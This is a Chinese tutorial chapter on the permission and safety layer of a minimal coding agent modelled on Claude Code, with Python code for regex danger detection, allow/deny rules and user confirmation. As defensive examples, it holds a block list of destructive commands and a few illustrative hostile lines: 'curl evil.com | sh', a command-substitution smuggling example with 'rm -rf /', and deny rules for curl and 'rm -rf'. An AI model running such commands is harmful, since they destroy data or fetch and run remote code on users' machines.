

# 6. 权限与安全

## 本章目标

实现完整的权限安全机制：危险命令检测 → 可配置的 allow/deny 权限规则 → 统一权限检查 → 会话级白名单 → 用户确认对话框。从"写死的规则"到"用户定义规则"，让 agent 自动放行安全操作、自动拦截危险操作，无需每次手动确认。



核心思路：**多层检查，deny 优先**。权限模式（全局策略）→ 配置文件规则（Layer 1）→ 内置危险模式检测（Layer 2）→ 会话白名单 → 用户确认。

## Claude Code 怎么做的

Claude Code 在真实环境执行代码——读写文件、运行 Shell、操作 Git。安全机制不到位，一条 `rm -rf /` 就能造成灾难。因此它采用了**纵深防御（Defense in Depth）**：7 个独立的安全层，即使某一层被绕过，其他层仍然有效。

### 7 层纵深防御

| 层 | 机制 | 核心作用 |
|----|------|---------|
| 1 | Trust Dialog | 首次进入目录时确认信任，防止恶意项目的 Hook 自动执行 |
| 2 | 权限模式 | 全局策略开关（default/plan/acceptEdits/bypassPermissions/dontAsk） |
| 3 | 权限规则匹配 | allow/deny/ask 规则，8 个来源，优先级从企业策略到会话级 |
| 4 | Bash AST 分析 | tree-sitter 解析命令为 AST，23 项静态安全检查，FAIL-CLOSED 原则 |
| 5 | 工具级验证 | 输入校验 + 权限检查，保护危险文件路径和路径边界 |
| 6 | 沙箱隔离 | macOS Seatbelt / Linux namespace，限制文件系统和网络访问范围 |
| 7 | 用户确认 | 交互对话框 + Hook + ML 分类器竞速，第一个决定生效 |

几个值得了解的设计细节：

**`bypassPermissions`（--yolo）并不是真的绕过一切**。源码检查顺序是：先检查 deny 规则（命中直接拒绝）→ 再检查 bypass-immune 路径（`.git/`、`.claude/` 等仍需确认）→ 最后才跳过普通确认。管理员通过 deny 规则可以对 `--yolo` 施加约束。

**Layer 4 为什么不用正则**：Shell 语法复杂，正则面对 `echo hello$(rm -rf /)` 这类命令会看到的是 `echo hello`，实际执行的却是 `rm -rf /`。tree-sitter 真正解析 AST，不理解的结构（命令替换、变量展开、控制流等）一律标记为 `too-complex`，要求用户确认。

**8 种规则来源，严格优先级**：企业 MDM 策略（不可覆盖）> 用户全局 > 项目级（提交到仓库）> 本地项目（不提交）> CLI 参数 > 运行时参数 > 命令定义 > 会话级（点"始终允许"产生）。低优先级不能覆盖高优先级——企业策略 deny 的操作，用户在任何层级写 allow 都无效。

**3 种匹配类型**：精确匹配（`Bash(git status)`）、前缀匹配（`Bash(npm:*)`）、通配符匹配（`Bash(git * --no-verify)`）。通配符以空格+`*` 结尾时尾部可选，与前缀语法行为保持一致。

**Layer 7 的竞速机制**：UI 对话框、PermissionRequest Hook、ML 分类器三者同时启动，`createResolveOnce` 守卫确保只有第一个决定生效。一旦用户触碰对话框，Hook 和分类器的结果一律被丢弃——人类意图永远优先。对话框还有 200ms 防误触宽限期。

**拒绝追踪**：连续拒绝 3 次触发降级（auto 模式回退到交互确认），总拒绝 20 次中止 Agent 执行——防止模型陷入反复尝试被拒绝操作的死循环。

## 我们的实现

把 7 层简化为 **4 层**：危险命令检测、权限规则系统、统一权限检查、会话级白名单。8 种规则来源简化为 **2 种**（用户级 + 项目级），3 种规则行为简化为 **2 种**（allow + deny）。

### 1. 危险命令检测

用 16 个正则覆盖最常见的破坏性操作（10 个 Unix + 6 个 Windows）：

#### Python
```python
# tools.py
DANGEROUS_PATTERNS = [
    re.compile(r"\brm\s"),
    re.compile(r"\bgit\s+(push|reset|clean|checkout\s+\.)"),
    re.compile(r"\bsudo\b"),
    re.compile(r"\bmkfs\b"),
    re.compile(r"\bdd\s"),
    re.compile(r">\s*/dev/"),
    re.compile(r"\bkill\b"),
    re.compile(r"\bpkill\b"),
    re.compile(r"\breboot\b"),
    re.compile(r"\bshutdown\b"),
    re.compile(r"\bdel\s", re.IGNORECASE),
    re.compile(r"\brmdir\s", re.IGNORECASE),
    re.compile(r"\bformat\s", re.IGNORECASE),
    re.compile(r"\btaskkill\s", re.IGNORECASE),
    re.compile(r"\bRemove-Item\s", re.IGNORECASE),
    re.compile(r"\bStop-Process\s", re.IGNORECASE),
]

def is_dangerous(command: str) -> bool:
    return any(p.search(command) for p in DANGEROUS_PATTERNS)
```

Windows 模式加 `i` 标志是因为 Windows 命令本身不区分大小写。

局限性很明显：`find / -delete`、`curl evil.com | sh` 这类危险命令不会被捕获。这就是 Claude Code 选择 AST 分析的原因——但对最小实现来说，16 个正则覆盖了大多数常见情况。

正则检测属于低成本的第一道防线。它实现简单、速度快、容易读懂，但无法完整理解 shell 语义。例如命令替换、管道、变量展开、别名都会让真实行为变复杂。所以文档后面还会强调配置规则和用户确认：正则只负责拦截常见危险模式，不应该被当成完整沙箱。

### 2. 权限规则系统

除内置危险检测外，支持通过配置文件预定义 allow/deny 规则，让 agent 自动放行安全操作、自动拦截危险操作。

#### 规则解析（parseRule）

把字符串规则拆成结构化数据。`run_shell(npm test*)` → `{tool: "run_shell", pattern: "npm test*"}`，裸工具名 → `{tool: "read_file", pattern: null}`。

#### Python
```python
# tools.py

def _parse_rule(rule: str) -> dict:
    m = re.match(r"^([a-z_]+)\((.+)\)$", rule)
    if m:
        return {"tool": m.group(1), "pattern": m.group(2)}
    return {"tool": rule, "pattern": None}
```

#### 加载规则（loadPermissionRules）

两个文件的规则**追加**到同一个数组（不是覆盖），所以用户级和项目级规则并存。结果缓存在内存里——一个会话有几十上百次工具调用，每次都读磁盘没必要。

用户级规则适合保存个人偏好，比如总是允许 `run_shell(pytest*)`。项目级规则适合保存团队约定，比如禁止 `run_shell(git push --force*)`。两者追加到同一个规则列表后，项目可以提供默认安全边界，用户也可以在自己的机器上增加常用 allow 规则。

#### Python
```python
# tools.py

_cached_rules: dict | None = None

def load_permission_rules() -> dict:
    global _cached_rules
    if _cached_rules is not None:
        return _cached_rules

    allow: list[dict] = []
    deny: list[dict] = []

    user_settings = _load_settings(Path.home() / ".claude" / "settings.json")
    project_settings = _load_settings(Path.cwd() / ".claude" / "settings.json")

    for settings in [user_settings, project_settings]:
        if not settings or "permissions" not in settings:
            continue
        perms = settings["permissions"]
        for r in perms.get("allow", []):
            allow.append(_parse_rule(r))
        for r in perms.get("deny", []):
            deny.append(_parse_rule(r))

    _cached_rules = {"allow": allow, "deny": deny}
    return _cached_rules
```

#### 规则匹配（matchesRule）

三层判断：工具名不匹配直接跳过 → 无 pattern 则工具名匹配即可 → 有 pattern 则取 `command` 或 `file_path` 做匹配。支持两种匹配方式：尾部 `*` 做前缀匹配，否则精确匹配。

#### Python
```python
# tools.py

def _matches_rule(rule: dict, tool_name: str, inp: dict) -> bool:
    if rule["tool"] != tool_name:
        return False
    if rule["pattern"] is None:
        return True

    value = ""
    if tool_name == "run_shell":
        value = inp.get("command", "")
    elif "file_path" in inp:
        value = inp["file_path"]
    else:
        return True

    pattern = rule["pattern"]
    if pattern.endswith("*"):
        return value.startswith(pattern[:-1])
    return value == pattern
```

注意：`run_shell(np*)` 会同时匹配 `npm` 和 `npx`，写规则时注意前缀精确度。

#### 规则检查（`_check_permission_rules`）

返回值是三态：`"allow"` / `"deny"` / `null`（无意见，交给下一层）。deny 先于 allow 遍历，所以即使你写了 `allow: ["run_shell"]`，`deny: ["run_shell(rm -rf*)"]` 仍然生效——"先放开，再收紧"的规则写法因此成立。

#### Python
```python
# tools.py

def _check_permission_rules(tool_name: str, inp: dict) -> str | None:
    rules = load_permission_rules()

    for rule in rules["deny"]:
        if _matches_rule(rule, tool_name, inp):
            return "deny"
    for rule in rules["allow"]:
        if _matches_rule(rule, tool_name, inp):
            return "allow"
    return None
```

#### 四个规则函数的关系

这四个函数不是重复实现，而是一条从"配置字符串"到"最终规则裁决"的流水线：

```text
配置文件里的字符串规则
        ↓
_parse_rule()              解析成结构化规则
        ↓
load_permission_rules()    加载并缓存所有规则
        ↓
_matches_rule()            判断某一条规则是否命中当前工具调用
        ↓
_check_permission_rules()  综合 deny/allow，给出最终规则结论
```

可以用一句话记住：

| 函数 | 负责什么 | 输入 | 输出 |
|------|----------|------|------|
| `_parse_rule()` | 拆规则 | 一条字符串规则 | 一条结构化规则 |
| `load_permission_rules()` | 收集规则 | 用户级 + 项目级配置文件 | `{"allow": [...], "deny": [...]}` |
| `_matches_rule()` | 比对一条规则 | 一条规则 + 当前工具调用 | `True` / `False` |
| `_check_permission_rules()` | 做规则层裁决 | 当前工具调用 | `"allow"` / `"deny"` / `None` |

例如配置里写：

```json
{
  "permissions": {
    "allow": ["run_shell(npm test*)"],
    "deny": ["run_shell(npm test --delete*)"]
  }
}
```

当前工具调用是：

```python
tool_name = "run_shell"
inp = {"command": "npm test --delete-cache"}
```

执行过程是：

1. `_parse_rule()` 把 `"run_shell(npm test*)"` 和 `"run_shell(npm test --delete*)"` 拆成 dict。
2. `load_permission_rules()` 把 allow 和 deny 两组规则加载到内存里。
3. `_check_permission_rules()` 先检查 deny。
4. `_matches_rule()` 发现 `"npm test --delete*"` 匹配 `"npm test --delete-cache"`。
5. 最终返回 `"deny"`。

所以即使命令也匹配 `allow: ["run_shell(npm test*)"]`，仍然会被拒绝。原因是 `_check_permission_rules()` 永远先遍历 deny，再遍历 allow。

### 3. 统一权限检查

`check_permission()` 是权限系统的统一入口，整合了权限模式、配置文件规则和内置危险检测，返回包含动作和提示消息的结果，动作有三种值：`allow`、`deny`、`confirm`。

优先级：**deny 规则 > allow 规则 > 模式逻辑 > 内置危险检测 > 默认允许**。

#### Python
```python
# tools.py — check_permission

def check_permission(
    tool_name: str,
    inp: dict,
    mode: str = "default",
    plan_file_path: str | None = None,
) -> dict:
    """Returns {"action": "allow"|"deny"|"confirm", "message": ...}"""
    if mode == "bypassPermissions":
        return {"action": "allow"}

    # Layer 1: 配置文件规则（deny 优先）
    rule_result = _check_permission_rules(tool_name, inp)
    if rule_result == "deny":
        return {"action": "deny", "message": f"Denied by permission rule for {tool_name}"}
    if rule_result == "allow":
        return {"action": "allow"}

    # 读工具永远安全
    if tool_name in READ_TOOLS:
        return {"action": "allow"}

    # 权限模式检查
    if mode == "plan":
        if tool_name in EDIT_TOOLS:
            file_path = inp.get("file_path") or inp.get("path")
            if plan_file_path and file_path == plan_file_path:
                return {"action": "allow"}
            return {"action": "deny", "message": f"Blocked in plan mode: {tool_name}"}
        if tool_name == "run_shell":
            return {"action": "deny", "message": "Shell commands blocked in plan mode"}

    if mode == "acceptEdits" and tool_name in EDIT_TOOLS:
        return {"action": "allow"}

    # Layer 2: 内置危险模式检查
    needs_confirm = False
    confirm_message = ""

    if tool_name == "run_shell" and is_dangerous(inp.get("command", "")):
        needs_confirm = True
        confirm_message = inp.get("command", "")
    elif tool_name == "write_file" and not Path(inp.get("file_path", "")).exists():
        needs_confirm = True
        confirm_message = f"write new file: {inp.get('file_path', '')}"
    elif tool_name == "edit_file" and not Path(inp.get("file_path", "")).exists():
        needs_confirm = True
        confirm_message = f"edit non-existent file: {inp.get('file_path', '')}"

    if needs_confirm:
        if mode == "dontAsk":
            return {"action": "deny", "message": f"Auto-denied (dontAsk mode): {confirm_message}"}
        return {"action": "confirm", "message": confirm_message}

    return {"action": "allow"}
```

触发确认的条件：`run_shell` + 危险命令，`write_file` / `edit_file` + 目标不存在。`read_file`、`list_files`、`grep_search` 永远安全。Layer 1 无意见才进 Layer 2，两层都没拦住就默认允许。

返回三态而不是布尔值，是这个函数最重要的设计。`allow` 表示可以直接执行；`deny` 表示直接把拒绝结果返回给模型；`confirm` 表示需要用户参与。这样主循环可以根据不同结果采取不同动作，而不是把所有“不允许”都混成一种错误。

#### `check_permission()` 的执行顺序

可以把 `check_permission()` 理解成 agent 调用工具前的总闸门。它不执行工具，只回答一个问题：这次工具调用应该直接执行、直接拒绝，还是先问用户？

它的参数分别代表：

| 参数 | 含义 | 示例 |
|------|------|------|
| `tool_name` | 当前要调用的工具名 | `"run_shell"` |
| `inp` | 工具输入参数 | `{"command": "npm test"}` |
| `mode` | 当前权限模式 | `"default"` / `"plan"` |
| `plan_file_path` | plan 模式下唯一允许写入的计划文件 | `"~/.claude/plans/plan-xxx.md"` |

代码按顺序做这些判断：

1. 如果是 `bypassPermissions`，直接返回 `allow`。
2. 检查配置文件规则。命中 deny 就拒绝，命中 allow 就放行。
3. 如果是读工具，直接放行。
4. 如果是 `plan` 模式，禁止编辑普通文件和运行 shell，只允许写计划文件。
5. 如果是 `acceptEdits` 模式，编辑工具直接放行。
6. 检查内置危险模式：危险 shell、新建文件、编辑不存在文件都需要确认。
7. 如果需要确认但处于 `dontAsk` 模式，直接拒绝。
8. 前面都没有拦截，则默认允许。

几个典型例子：

```python
check_permission("read_file", {"file_path": "README.md"})
# {"action": "allow"}

check_permission("run_shell", {"command": "rm -rf node_modules"})
# {"action": "confirm", "message": "rm -rf node_modules"}

check_permission("write_file", {"file_path": "src/new_feature.py"})
# 如果文件不存在：
# {"action": "confirm", "message": "write new file: src/new_feature.py"}

check_permission("run_shell", {"command": "rm -rf node_modules"}, mode="dontAsk")
# {"action": "deny", "message": "Auto-denied (dontAsk mode): rm -rf node_modules"}
```

为什么返回三态而不是布尔值？因为 `False` 无法区分"规则禁止"和"需要用户确认"。三态让主循环可以清楚处理：

```text
allow    直接执行工具
deny     不执行，把拒绝消息返回给模型
confirm  弹出确认，用户同意后再执行
```

需要注意一个实现细节：本章前面说"deny 优先"是权限规则层的原则；但这份简化代码里 `bypassPermissions` 在函数开头直接返回 `allow`，因此它会跳过后续 allow/deny 规则和危险检测。真实 Claude Code 的 `--yolo` 更保守，仍然有 deny 规则和特殊路径保护；mini-claude 这里采用的是"完全信任"语义。

### 4. 会话级白名单

在智能体循环中，用 `_confirmed_paths` 集合记住已授权的操作：

#### Python
```python
# agent.py

self._confirmed_paths: set[str] = set()

perm = check_permission(tu.name, inp, self.permission_mode, self._plan_file_path)

if perm["action"] == "deny":
    print_info(f"Denied: {perm.get('message', '')}")
    tool_results.append({"type": "tool_result", "tool_use_id": tu.id,
                         "content": f"Action denied: {perm.get('message', '')}"})
    continue

if perm["action"] == "confirm" and perm.get("message") and perm["message"] not in self._confirmed_paths:
    confirmed = await self._confirm_dangerous(perm["message"])
    if not confirmed:
        tool_results.append({"type": "tool_result", "tool_use_id": tu.id,
                             "content": "User denied this action."})
        continue
    self._confirmed_paths.add(perm["message"])
```

拒绝时把 `"User denied this action."` 作为工具结果返回，而不是抛错或中断循环——LLM 看到后会调整策略，这是关键设计。deny 规则命中时不弹对话框，直接把拒绝消息返回给模型。confirm 走会话白名单，用户确认一次后同一操作不再重复询问。

#### 会话级白名单怎么工作

`_confirmed_paths` 是一个集合，保存当前会话里用户已经确认过的操作。虽然名字里有 `paths`，但它保存的不一定是文件路径，也可能是危险命令字符串，例如：

```python
self._confirmed_paths = {
    "rm -rf node_modules",
    "write new file: src/new_feature.py",
}
```

它只在当前 agent 运行期间有效。程序退出后，集合就消失了；下次启动仍然需要重新确认。

主循环拿到 `check_permission()` 的结果后分两类处理：

1. `deny`：直接拒绝，不问用户。
2. `confirm`：如果这个操作没在 `_confirmed_paths` 里，就问用户；用户同意后加入白名单。

完整流程可以这样看：

```text
check_permission() 返回 confirm
        ↓
message 是否已经在 _confirmed_paths 里？
        ↓
是：直接执行
否：调用 _confirm_dangerous() 问用户
        ↓
用户同意：加入 _confirmed_paths，然后执行
用户拒绝：把 "User denied this action." 返回给模型
```

这里有一个很重要的设计：拒绝不是抛异常，也不是中断整个 agent，而是作为工具结果返回给模型。模型看到 `"User denied this action."` 后，可以尝试换一种做法，或者向用户解释这个操作无法继续。

### 5. 确认对话框

#### Python
```python
# agent.py
async def _confirm_dangerous(self, command: str) -> bool:
    print_confirmation(command)
    if self.confirm_fn:
        return await self.confirm_fn(command)
    try:
        answer = input("  Allow? (y/n): ")
        return answer.lower().startswith("y")
    except EOFError:
        return False
```

#### `_confirm_dangerous()` 做了什么

`_confirm_dangerous()` 负责真正向用户确认危险操作。它接收一个字符串，例如：

```text
rm -rf node_modules
write new file: src/new_feature.py
```

返回值是布尔值：

```text
True   用户同意
False  用户拒绝
```

函数内部有三层处理：

1. `print_confirmation(command)`：先把危险操作展示给用户。
2. 如果传入了 `confirm_fn`，就交给外部确认函数处理。
3. 如果没有 `confirm_fn`，就退回到命令行 `input("  Allow? (y/n): ")`。

`confirm_fn` 的好处是让确认逻辑可以适配不同环境：命令行里可以用 `input()`，测试里可以传一个总是返回 `True` 或 `False` 的 fake 函数，Web UI 里则可以接一个弹窗。

默认命令行确认里，只要输入以 `y` 开头就算同意：

```text
y
Y
yes
YES
```

其他输入都算拒绝。遇到 `EOFError` 也返回 `False`，这通常发生在 CI、管道运行、后台任务等没有交互输入的环境中。无法确认时默认拒绝，是安全系统里的 fail-closed 原则。

### 5 种权限模式

| 模式 | 读工具 | 编辑工具 | Shell（安全） | Shell（危险） | 适用场景 |
|------|--------|----------|-------------|-------------|---------|
| `default` | ✅ | ⚠️ confirm(新文件) | ✅ | ⚠️ confirm | 日常使用 |
| `plan` | ✅ | ❌ deny | ❌ deny | ❌ deny | 只规划不执行 |
| `acceptEdits` | ✅ | ✅ | ✅ | ⚠️ confirm | 信任编辑 |
| `bypassPermissions` | ✅ | ✅ | ✅ | ✅ | --yolo |
| `dontAsk` | ✅ | ❌ deny | ✅ | ❌ deny | CI/非交互 |

```bash
mini-claude --yolo "..."           # bypassPermissions
mini-claude --plan "..."           # plan mode
mini-claude --accept-edits "..."   # acceptEdits
mini-claude --dont-ask "..."       # dontAsk（CI 环境）
```

`plan` 模式下模型还可以通过 `enter_plan_mode` / `exit_plan_mode` 工具动态切换，系统会生成一个 plan 文件路径（`~/.claude/plans/plan-<sessionId>.md`）作为唯一可写文件。

### 配置文件格式

```json
// ~/.claude/settings.json（用户级，全局生效）
{
  "permissions": {
    "allow": [
      "read_file",
      "list_files",
      "grep_search",
      "run_shell(npm test*)",
      "run_shell(git status)",
      "run_shell(git diff*)"
    ],
    "deny": [
      "run_shell(rm -rf*)",
      "run_shell(git push --force*)"
    ]
  }
}
```

```json
// .claude/settings.json（项目级，提交到仓库）
{
  "permissions": {
    "allow": ["run_shell(python -m compileall mini_claude)"],
    "deny": ["run_shell(curl*)"]
  }
}
```

两个文件的规则合并后一起生效。规则格式：
- `"read_file"` — 匹配该工具的所有调用
- `"run_shell(npm test*)"` — 匹配 `run_shell` 中命令以 `npm test` 开头的调用

**为什么 deny 优先于 allow**：这是安全系统的标准设计。allow 优先的话，一旦你写了 `allow: ["run_shell"]` 就没法用 deny 排除危险子命令了。deny 优先让"先放开，再收紧"的配置方式成为可能：

```json
{
  "permissions": {
    "allow": ["run_shell(git *)"],
    "deny": ["run_shell(git push --force*)"]
  }
}
```

**为什么没有 ask 规则**：Claude Code 的 ask 是给 bypassPermissions 设安全阀用的。我们的 `--yolo` 语义是"完全信任"，加 ask 规则反而矛盾。需要强制确认的操作，不加入 allow 列表就行——自然落到 Layer 2 的内置检查。

## 与 Claude Code 的差距

| 维度 | Claude Code | mini-claude |
|------|------------|-------------|
| 防御层次 | 7 层 | 4 层（模式 + 规则 + 检测 + 确认） |
| 命令分析 | AST 解析（23 项检查） | 正则匹配（16 模式） |
| 权限规则来源 | 8 源优先级 | 2 源（用户 + 项目） |
| 规则行为 | allow / deny / ask | allow / deny |
| 匹配方式 | 精确 / 前缀 / 通配符 | 精确 / 尾部通配符 |
| 白名单 | 持久化 + 会话级 | 会话级 Set |
| 沙箱 | macOS Seatbelt / Linux namespace | 无 |
| bypass-immune 路径 | .git/、.ssh/ 等强制确认 | 无 |
| 拒绝追踪 | 3/20 次阈值降级 | 无 |

核心架构已对齐——5 种权限模式 + 配置化规则 + 内置检测，层次清晰。从"写死的规则"到"用户定义规则"，是从个人工具迈向团队工具的关键一步。

---

> **下一章**：Agent 对话越来越长，上下文窗口快满了——4 层压缩流水线让它看起来拥有无限记忆。

## 本章小结：权限系统不是为了阻止 Agent，而是为了限定边界

权限系统的目标不是让智能体什么都做不了，而是让它在明确边界内自动行动。读文件、搜索代码通常可以直接放行；写文件、运行 shell、修改 Git 状态就要根据模式和规则判断。这样既能保持效率，又不会把危险操作完全交给模型自由发挥。

代码实现集中在 `tools.py` 的 `check_permission()`。它会先看权限模式，比如 `bypassPermissions`、`plan`、`acceptEdits`、`dontAsk`；再加载 `~/.claude/settings.json` 和项目 `.claude/settings.json` 里的 allow/deny 规则；如果是 shell 命令，还会用正则检测危险模式。返回值不是简单布尔值，而是 `allow`、`deny` 或 `confirm`，这样主循环知道是直接执行、直接拒绝，还是弹出确认。

相关概念是“纵深防御”。真实 Claude Code 有更多层：信任目录、AST 命令分析、沙箱、Hook、企业策略等。当前 Python 版保留了最核心的几层，足够展示原则：权限应该由代码强制执行，而不只是写在系统提示词里让模型自觉遵守。
